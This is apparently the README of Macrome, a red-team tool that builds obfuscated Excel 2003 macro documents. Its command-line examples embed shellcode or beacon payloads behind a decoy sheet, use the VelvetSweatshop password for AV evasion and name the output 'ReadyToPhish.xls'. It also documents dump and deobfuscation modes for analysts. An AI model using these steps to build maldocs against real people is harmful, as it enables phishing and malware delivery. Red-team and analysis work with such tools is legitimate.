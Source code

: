 # Macrome
An Excel Macro Document Reader/Writer for Red Teamers & Analysts. Blog posts describing what this tool actually does can be found [here](https://malware.pizza/2020/05/12/evading-av-with-excel-macros-and-biff8-xls/) and [here](https://malware.pizza/2020/06/18/further-evasion-in-the-forgotten-corners-of-ms-xls/).

![An example created document using the default template.](Docs/macrome.png)

# Installation / Building
Clone or download this repository, the tool can then be executed using dotnet - for example:

~~~
dotnet run -- build --decoy-document Docs\decoy_document.xls --payload Docs\popcalc.bin 
~~~

or 

~~~
dotnet build
cd bin/Debug/netcoreapp2.0
dotnet Macrome.dll deobfuscate --path obfuscated_document.xls
~~~

Note that a 5.0+ build of dotnet is required for this to work as configured - it can be grabbed from  https://dotnet.microsoft.com/download/dotnet/5.0.

Binary releases of the tool that do not require dotnet and contain an executable binary can be found in the Release section for Windows, OSX, and Linux.

# Usage
Run Macrome by either using `dotnet run` from the solution directory, or `dotnet` against the built Macrome binary. There are three modes of operation for Macrome - Build mode, Dump mode, and Deobfuscation mode. 

## Build Mode
Run Macrome with the `build` command in order to generate an Excel document containing an obfuscated macro sheet using a provided decoy document and macro payload. `dotnet Macrome.dll build -h` will display full usage instructions.

For example, to build a document using decoy document `path/to/decoy_document.xls` and binary x86 shellcode stored at `path/to/shellcode.bin`, run `dotnet Macrome.dll build --decoy-document path/to/decoy_document.xls --payload /path/to/shellcode.bin`. This will generate an XLS 2003 document which after being opened and having the "Enable Content" button pressed, will execute the shellcode of `shellcode.bin`.

### How SHOULD I run this?
The rest of the documentation will explain each flag/function in detail, but right now the "latest & greatest" that Macrome has to offer can be obtained by running:

~~~
Macrome build --decoy-document decoy_document.xls --payload beacon.bin --payload64-bit beacon64.bin --payload-method Base64 --method ArgumentSubroutines --password VelvetSweatshop --preamble preamble.txt --output-file-name ReadyToPhish.xls
~~~
